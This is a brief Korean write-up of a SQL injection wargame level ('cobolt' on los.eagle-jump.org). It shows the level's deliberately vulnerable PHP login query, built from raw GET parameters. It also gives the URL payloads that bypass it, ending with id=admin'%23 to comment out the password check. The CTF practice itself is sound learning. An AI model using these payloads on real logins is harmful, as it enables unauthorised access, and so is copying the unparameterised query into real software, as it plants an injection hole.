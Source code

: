 # Los.eagle-jump.org-2 
* 2번 문제 [cobolt]
```javascript
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```
쿼리문
```
select id from prob_cobolt where id='' and pw=md5('')
```


* Solution [쿼리를 이용해 로그인 시도]

1. 파라미터를 이용해 쿼리문을 작성
https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=

2. id=admin

3. https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin' or '1=1'#

4. or을 이용해여 참값을 반환, 코드를 주석으로 만들기 위해 뒤에 # 추가

5. Hello rubiya
   You are not admin :(
   
6. 아쉽게도 정답이 아니다

7. 다시 or을 사용하지않고 파라미터를 다시작성

8. 정답: https://los.eagle-jump.org/cobolt_ee003e254d2fe4fa6cc9505f89e44620.php?id=admin'%23'
